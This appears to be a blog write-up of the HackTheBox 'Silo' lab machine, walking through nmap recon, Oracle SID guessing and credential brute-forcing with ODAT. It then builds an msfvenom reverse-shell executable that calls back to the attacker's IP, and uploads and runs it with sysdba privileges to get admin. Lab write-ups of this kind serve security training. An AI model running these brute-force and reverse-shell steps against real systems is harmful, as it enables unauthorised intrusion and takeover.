 ```yaml
---
layout: single
title: Silo
date: 2023-09-21 
toc: true
classes: wide
excerpt: "Solving Silo machine from HackTheBox by exploiting a vulnerable Oracle Service"
header:
  teaser: /assets/images/hackthebox/silo/teaser.png
  teaser_home_page: true
categories:
  - machines
tags:
  - hackthebox
  - windows
---
```


![Silo](/assets/images/hackthebox/silo/teaser.png)

Silo is one of many HackTheBox Machines. In this case it is a windows machine with the purpose of learning how to assess a vulnerable Oracle service. According to HackTheBox, Silo focuses mainly on leveraging Oracle to obtain a shell and escalate privileges. It was intended to be completed manually using various tools, however Oracle Database Attack Tool greatly simplifies the process, reducing the difficulty of the machine substantially. 

In this write-up we will learn the basic usage of ODAT to compromise the machine.


# Recon

For the initial recon we will use the following **nmap** command to discover all open ports in the machine with a TCP SYN scan: 

```bash
sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.129.95.188 -oG allPorts
```

We see that the following ports are open: 80, 135, 139, 445, 1521, 5985, 47001, 49152, 49153, 49154, 49155, 49159, 49160, 49161, 49162. We do some further enumeration with nmap common scripts: 

```bash 
sudo nmap -p80,135,139,445,1521,5985,47001,49152,49153,49154,49155,49159,49160,49161,49162 -sCV -n -Pn 10.129.95.188 -oN portsInfo
```

Output:

```python
# Nmap 7.94 scan initiated Wed Sep 20 23:29:01 2023 as: nmap -p80,135,139,445,1521,5985,47001,49152,49153,49154,49155,49159,49160,49161,49162 -sCV -n -Pn -oN portsInfo 10.129.95.188
Nmap scan report for 10.129.95.188
Host is up (0.088s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
49162/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-time: 
|   date: 2023-09-21T03:31:03
|_  start_date: 2023-09-21T00:11:32
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1s, deviation: 0s, median: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 20 23:31:09 2023 -- 1 IP address (1 host up) scanned in 128.07 seconds
```


We see one interesting port for Oracle (1521). This type of service can be attacked with ODAT (Oracle Database Attacking Tool). A detailed installation guide can be found in the github repository:  https://github.com/quentinhardy/odat

# Exploitation

## Step 1:  Find SID

The first step is to find the SID for the Oracle instance. SID is short for session id - a unique identifier for each session in a database. From the manual: "The system identifier (SID) is a unique name for an Oracle database instance on a specific host." This is a required parameter for the other commands we will use with ODAT. The following command is used to extract a valid SID: 

```bash
python3 odat.py sidguesser -s 10.129.95.188
```

![SID](/assets/images/hackthebox/silo/sid.png)

## Step 2: Account Bruteforce

Now that we have the SID, we need some valid credentials to continue with the attack. The default word-list used by ODAT is not the best, so we will use a word-list found inside the Metasploit Framework.  ODAT uses the format `user/password` for word-lists but metasploit's wordlist uses a space to separate users and passwords (`user password`). This can be easily fixed using the `tr` command to replace spaces for forward slashes and then we can execute the brute-force attack.

```bash
cat /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt | tr ' ' '/' > wordlist.txt

python3 odat.py passwordguesser -s 10.129.95.188 -d XE --accounts-file wordlist.txt
```

After a couple of minutes, the credentials `scott/tiger` are evaluated as valid.

## Step 3: Upload Payload

With ODAT we can interact with the victim's windows filesystem. For example, we can download the hosts file in our machine:

```bash
python3 odat.py utlfile -s 10.129.95.188 -d XE -U 'scott' -P 'tiger' --getFile /Windows/System32/Drivers/etc/ hosts hosts --sysdba
```

![getFile](/assets/images/hackthebox/silo/getFile.png)

In the same way, we can upload a malicious payload created with **msfvenom** to obtain a reverse shell: 

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.188 LPORT=443 -a x64 --platform Windows -f exe -o shell.exe

python3 odat.py utlfile -s 10.129.95.188 -d XE -U 'scott' -P 'tiger' --putFile /Windows/Temp shell.exe shell.exe --sysdba

```

**Note**: It's important to use the `--sysdba` option to gain the appropriate privileges on the victim machine. You can think of sysdba as root for Oracle.

## Step 4: Execute Payload

Finally we can execute the payload:

```bash
python3 odat.py externaltable -s 10.129.95.188 -d XE -U 'scott' -P 'tiger' --exec /Windows/Temp shell.exe --sysdba
```

Admin privileges are automatically obtained:

![root](/assets/images/hackthebox/silo/root.png)

And we can retrieve the flags:

![flags](/assets/images/hackthebox/silo/flags.png)


